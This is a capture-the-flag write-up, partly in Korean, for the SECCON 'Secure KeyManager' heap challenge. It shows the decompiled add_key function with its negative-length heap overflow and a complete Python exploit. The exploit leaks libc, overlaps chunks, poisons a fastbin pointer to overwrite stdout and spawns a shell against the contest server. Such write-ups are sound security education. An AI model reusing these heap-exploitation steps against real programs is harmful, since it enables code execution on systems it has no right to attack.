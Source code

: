 Secure KeyManager 400 (Solver : 36)
=============

### 1. Introduction

| RELRO         | STACK CANARY | NX         | PIE    | RPATH    | RUNPATH    | FILE             |
|---------------|--------------|------------|--------|----------|------------|------------------|
| Partial RELRO | Canary found | NX enabled | No PIE | No RPATH | No RUNPATH | Securekeymanager | 

x64 바이너리이다.

### 2. Vulnerability
```c
int add_key()
{
  int result; // eax
  __int64 v1; // [rsp+0h] [rbp-10h]
  int v2; // [rsp+0h] [rbp-10h]
  unsigned int v3; // [rsp+4h] [rbp-Ch]
  char *v4; // [rsp+8h] [rbp-8h]

  LODWORD(v1) = 0;
  while ( v1 <= 7 && key_map[v1] )
    LODWORD(v1) = v1 + 1;
  if ( v1 > 7 )
    return puts("can't add key any more...");
  puts("ADD KEY");
  printf("Input key length...", v1);
  v3 = getint();
  v4 = malloc(v3 + 0x20LL); // v3 -> -32
  if ( !v4 )
    return puts("can not allocate...");
  printf("Input title...");
  getnline(v4, 32LL); // Heap Overflow!!
  printf("Input key...");
  getnline(v4 + 32, v3);
  key_list[v2] = v4;
  result = v2;
  key_map[v2] = 1;
  return result;
}
```
malloc을 할때 일부로 0바이트를 할당하도록 유도한다음, heap overflow를 내면 다음 청크의 사이즈까지 덮을 수 있다.

### 3. Exploit

Size 조작이 가능하므로 0x70 Chunk를 이용하여 Chunk Overlap을 낸다음 fastbin의 fd를 overwrite하여 exploit 하면 된다. (Edit 에서 32보다 더 큰값을 쓸 수 있는것을 이용)

```python
from ntpwn import *

#s = process('./secu', LIBC('./libc-2.23.so'))
l = ELF('./libc-2.23.so')
s = remote('secure_keymanager.pwn.seccon.jp',47225)
'''
b = BP(s)
b.bp('tracemalloc on')
b.bp('c')
b.done()
'''

def add(key_len, title, key):
	s.sendlineafter('>> ','1')
	s.sendlineafter('...',key_len)
	s.sendafter('...',title)
	s.sendlineafter('...',key)

def negative_add(key_len, title):
	s.sendlineafter('>> ','1')
	s.sendlineafter('...',key_len)
	s.sendafter('...',title)

def remove(target):
	s.sendlineafter('>> ','4')
	s.sendlineafter('>> ','A')
	s.sendlineafter('>> ','1')
	s.sendlineafter('...',target)

def edit(target,context):
	s.sendlineafter('>> ','3')
	s.sendlineafter('>> ','A')
	s.sendlineafter('>> ','1')
	s.sendlineafter('...',target)
	s.sendlineafter('...',context)

prompt = '>> '

pause()

s.sendlineafter(prompt,'A')
s.sendlineafter(prompt,'1')

s.sendlineafter(prompt,'9')
s.sendlineafter(prompt,'A' * 24)

s.recv(33)
libc_base = u64(s.recv(6) + '\x00' * 2) - 0x3c560a
oneshot = libc_base +0x4526a

log.info('LIBC_BASE : ' + hex(libc_base))
log.info('ONESHOT : ' + hex(oneshot))

negative_add('-32','A')
add(str(0x68-32),'A' * 0x10 ,'1')
add(str(0x68-32),'A' * 0x10 ,'1')
add(str(0x68-32),'A' * 0x10 ,'1')
remove('0')
negative_add('-32',"A" * 0x18 + p64(0xe1)[:-1])
remove('1')
remove('2')
add(str(0xd8-32),'A' * 0x10 ,'1')
edit('1','B' * 0x48 + p64(0x70) + p64(libc_base + l.symbols['_IO_2_1_stdout_'] + 0x9d))

add(str(0x68-32),'A' * 0x10 ,'1')

payload = '\x00' * 0x2a + p64(libc_base + l.symbols['_IO_2_1_stdout_'] + 0xc0)
payload += p64(libc_base + l.symbols['_IO_2_1_stdout_'])
payload += p64(oneshot) * 5

pause()
negative_add(str(0x68-32), payload)

s.interactive()

s.sendlineafter('>> ','1')
s.sendlineafter('...','A')


s.interactive()
```
### 4. Flag
![ex_screenshot](./flag/flag1.png)
